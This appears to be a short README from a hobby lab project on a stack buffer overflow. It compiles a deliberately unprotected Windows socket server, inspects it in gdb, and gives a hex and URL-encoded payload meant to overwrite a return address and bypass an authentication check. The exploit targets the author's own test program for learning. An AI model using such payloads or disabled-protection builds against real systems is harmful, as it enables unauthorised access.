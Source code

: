 # buffer_overflow_attack
it important to notice that we must install mingw compiler first
for windows run gcc -g -fno-stack-protector main.c -o auth -W -no-pie -lws2_32 //the -g is for debugging and the rest is to make sure that stack pointer is not protected
now run the ./file_name // the exe file
b function_name // breakpoint
p var_name // print the details of the var (including address in the stack pointer)


\x00\x00\x00\x00\x00\xee\x02\x00\x00\x00\x00\x00\x00\x90\xfc\x61\x00\x00\x00\x00\x00\x21\x18\x40
%00%00%00%00%00%ee%02%00%00%00%00%00%00%90%fc%61%00%00%00%00%00%21%18%40


info frame


Thread 1 hit Breakpoint 1, handle_request (client_socket=236) at main.c:41
41          char is_auth[1] = { 0 };
(gdb) info frame
Stack level 0, frame at 0x61fc10:
 rip = 0x401689 in handle_request (main.c:41); saved rip = 0x401a45
 called by frame at 0x61fe30
 source language c.
 Arglist at 0x61f7c0, args: client_socket=236
 Locals at 0x61f7c0, Previous frame's sp is 0x61fc10
 Saved registers:
  rbp at 0x61fc00, rip at 0x61fc08,
